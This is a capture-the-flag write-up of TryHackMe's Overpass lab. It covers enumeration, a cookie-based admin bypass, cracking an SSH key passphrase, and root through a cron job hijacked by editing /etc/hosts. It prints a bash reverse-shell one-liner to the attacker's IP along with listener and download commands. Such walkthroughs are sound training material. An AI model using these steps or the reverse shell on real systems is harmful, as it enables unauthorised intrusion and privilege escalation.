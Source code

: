 ```yaml
---
Platform: TryHackMe
Difficulty: Easy
Status: Rooted/Finished
Type: Machine
Title: Overpass
Category: 
tags: 
CreatedOn: 04-12-2023
---
```

# Overpass

In this writeup we are going to solve the Overpass room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

  

Lets Start……

  

First start the machine and perform a basic nmap scan.

Command: `nmap -A -T4 -v <Target_IP>`

![[Overpass/assets/Untitled.png|Untitled.png]]

From the results of the nmap scan, we can find 2 ports that are open, one is port 22 and the other one is port 80. On port 22 ssh service is running and on port 80, a golang http server is running. Lets visit the website that is running on port 80.

![[Overpass/assets/Untitled 1.png|Untitled 1.png]]

There is nothing interesting on the website. Lets enumerate the directories in the web server to find hidden directories using gobuster.

Command: `gobuster dir -u http://<Target_ID>/ -w` `**/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt**`

![[Overpass/assets/Untitled 2.png|Untitled 2.png]]

From the results of the gobuster, we can see that there is a directory `/admin`.

The `/admin` path consists of a login page for the Administrator area.

![[Overpass/assets/Untitled 3.png|Untitled 3.png]]

I tried some default credentials like `admin:admin` but it didn’t work. Then I tried some basice sql injection but it also didn’t work. Then I checked the page source and found the `login.js` script.

![[Overpass/assets/Untitled 4.png|Untitled 4.png]]

In the `login.js` script, in the login function, if the login is successful, it sets a cookie named “SessionToken”.

![[Overpass/assets/Untitled 5.png|Untitled 5.png]]

So, I tried to manually set a cookie with the name of “SessionToken” and with a empty value “”.

To set the cookie, open the dev tools and go to the application tab, and go to the cookies section and double click the Name area to add a cookie and enter the name as `SessionToken` , leave the value as empty and set the Path to “/”.

![[Overpass/assets/Untitled 6.png|Untitled 6.png]]

Now refresh the page. We have successfully logged in.

![[Overpass/assets/Untitled 7.png|Untitled 7.png]]

The web application only checks whether there is cookie to access the admin page and it doesn’t verify or check whether the cookie is valid or not.

We can see SSH Key for the user `james` in the admin page and its also mentioned that if we crack this SSH key we can find the password for the user james. Now copy and save this Key in a file in your local machine.

![[Overpass/assets/Untitled 8.png|Untitled 8.png]]

I have saved the private key in a file named key. I changed the permission of the key file to `666` using the command `chmod 600 key` and I tried to login via SSH using this key, it’s prompting for a passphrase.

![[Overpass/assets/Untitled 9.png|Untitled 9.png]]

So, I tried to crack the key using [JohnTheRipper](https://www.openwall.com/john/). To do that so, first we have to convert the private key into a hash format. To do that we can use `ssh2john`.

![[Overpass/assets/Untitled 10.png|Untitled 10.png]]

I have generated the hash and stored in a file named `johnSSH`. Now we can use this hash to crack the passphrase using [JohnTheRipper](https://www.openwall.com/john/).

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt johnSSH`

![[Overpass/assets/Untitled 11.png|Untitled 11.png]]

And we got the passphrase. Now we can login via SSH as the user `james` by using the private key and passphrase.

![[Overpass/assets/Untitled 12.png|Untitled 12.png]]

Now we have logged in as the user `james`. And you can get the user flag from user.txt.

![[Overpass/assets/Untitled 13.png|Untitled 13.png]]

Now to find the root flag we have to escalate our priveleges. For that we are going to use the [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) tool. Download the [`linpeas.sh`](http://linpeas.sh) script in your local machine. Now go to the directory where your downloaded [`linpeas.sh`](http://linpeas.sh) file is and open the directory location in a terminal.

Now we can use python to start a simple http server to host the [`linpeas.sh`](http://linpeas.sh) file and we can download this file from the ssh session of the user james as tryhackme rooms don’t have internet access. To start a simple http server use the following command:

`python3 -m http.server`

![[Overpass/assets/Untitled 14.png|Untitled 14.png]]

Now in the ssh session of james, use wget to download the linpeas file using the following command: `wget http://<your_tryhackme_tun_IP>:8000/`[`linpeas.sh`](http://linpeas.sh). After downloading the file, update the linpeas.sh files permission to be a executable by using the following command: `chmod +x linpeas.sh`

![[Overpass/assets/Untitled 15.png|Untitled 15.png]]

Now run the linpeas.sh file and wait for its response.

![[Overpass/assets/Untitled 16.png|Untitled 16.png]]

Under the `cron jobs` section of the response, we can see that there is a curl command which is executed with root permissions.

![[Overpass/assets/Untitled 17.png|Untitled 17.png]]

The curl command is executing a file named `buildscript.sh` which has a file path `/downloads/src/buildscript.sh` which is hosted in the `overpass.thm` address.

We can check the `/etc/hosts` file to find out which IP address/domain the `overpass.thm` address resolves to.

![[Overpass/assets/Untitled 18.png|Untitled 18.png]]

We can see that the `overpass.thm` resolves to localhost i.e, `127.0.0.1`.

And also under the `Interesting writable files` section of the `linpeas` response, we can see that we have write access to the `/etc/hosts` file

![[Overpass/assets/Untitled 19.png|Untitled 19.png]]

So, we can modify the `/etc/hosts` file i.e., we can change the resolving IP address of the `overpass.thm` from `127.0.0.1` to our self hosted server and we can make it to execute our custom made `buildscript.sh` file in our local machine which on executed will obtain a reverse shell.

To do that we have to create directory structure in our local machine, like the directory structure in the curl command i.e., `/downloads/src/buildscript.sh`.

![[Overpass/assets/Untitled 20.png|Untitled 20.png]]

Now in the `src` directory, create a [`buildscript.sh`](http://buildscript.sh) file which on executed will obtain a reverse shell. The `buildscript.sh` file contains the following python script:

```
/bin/bash -i >& /dev/tcp/<your_tryhackme_tun_IP>/9001 0>&1
```

![[Overpass/assets/Untitled 21.png|Untitled 21.png]]

Now go to the root directory for our web server, in my case it is the `~Desktop/Overpass` directory and execute the following command : `python3 -m http.server 80`

![[Overpass/assets/Untitled 22.png|Untitled 22.png]]

And also open another terminal and create a `netcat` listener on port `9001` using the following command : `nc -lvnp 9001`

![[Overpass/assets/Untitled 23.png|Untitled 23.png]]

Now in the `james` SSH session open the `/etc/hosts` with your favourite text editor and edit the IP address of the `overpass.thm` from `127.0.0.1` to `<your_tryhackme_tun_IP>`.

![[Overpass/assets/Untitled 24.png|Untitled 24.png]]

Now wait for some time (around 20 to 30 secs). You will get a reverse shell back, check the `netcat` listener that you have created…..

![[Overpass/assets/Untitled 25.png|Untitled 25.png]]

Successfully got the root flag…..

  

Thankyou…….
